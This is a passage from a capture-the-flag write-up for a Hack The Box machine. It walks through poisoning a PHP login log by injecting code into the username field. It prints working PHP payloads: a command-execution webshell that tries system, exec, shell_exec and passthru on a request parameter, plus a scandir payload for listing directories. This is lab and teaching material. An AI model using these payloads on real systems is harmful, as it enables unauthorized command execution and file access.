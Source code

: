 I’ll use the POST tab to send `1: <?php echo "0xdf"; ?>` for username and `2:
<?php echo "was here"; ?>` for password. I like to enter some plain text next
to the php to help me orient in the log. Sometimes the php parts may display
as nothing, and it’s nice to quickly identify where it would have been.

But in this case, when I view the log for this session, the php does run:

    
    
    [02 March 2019, 11:46:03 AM] 10.10.14.14 - Username: 1: 0xdf, Password: 2: was here
    

#### PHP Can’t Execute

The obvious next step here is to put in a shell. I’ll clear the log with
`init`, and then I’ll POST with username `1: <?php system(whoami); ?>`
(remembering to url encode it with ctrl-u in burp). On viewing the log, I’ll
see my new entry, but with no `whoami` output:

    
    
    [02 March 2019, 11:56:23 AM] 10.10.14.14 - Username: 1: , Password: 2: was here
    

I have a file I wrote doing OSCP to test for different types of execution in
php. It tried to run a command over php using 4 different calls. In each case,
it tries to run `whoami`, a command that will work on either Linux or Windows,
and it gives me the option to submit a command as well:

    
    
    <?php echo 'system: '; system('whoami'); system($_REQUEST['cmd']); ?><br/>
    <?php echo 'exec: '; echo exec('whoami'); echo exec($_REQUEST['cmd']); ?><br/>
    <?php echo 'shell_exec: '; shell_exec("whoami"); shell_exec($_REQUEST['cmd']); ?><br/>
    <?php echo 'passthru: '; passthru("whoami"); passthru($_REQUEST['cmd']);?>
    

So I’ll set my username to that, url encode it, and submit. Nothing executes:

    
    
    [02 March 2019, 11:59:55 AM] 10.10.14.14 - Username: system: <br/>exec: <br/>shell_exec: <br/>passthru: , Password: 2: was here
    

Remembering that ASP.NET is also in the response headers, I tried an aspx
webshell as well, but it doesn’t work. I’ll show why in Beyond Root.

#### Dir Walk / File Read / Write File

I know that php can list and read files, as those are done in the `list` and
`show` actions. php is also writing files when it creates these logs file. So
I will use these functions to explore the box.

#### Dir Walk

I will use the php functions `scandir` and `print_r` to list directories and
print the results. If I poison the log with with a `username=<?php echo
print_r(scandir($_GET['dir'])); ?>`, then any time I call `show` on
`webadmin.php`, I can pass in a `dir=[path]`, and the results will come back.
For example,
`action=show&site=hackthebox&password=12345678&session=8870c91857abf06f5f0fe0d9acea7f53d846be75c18ab95a0018a32a6b5518f7&dir=.`:
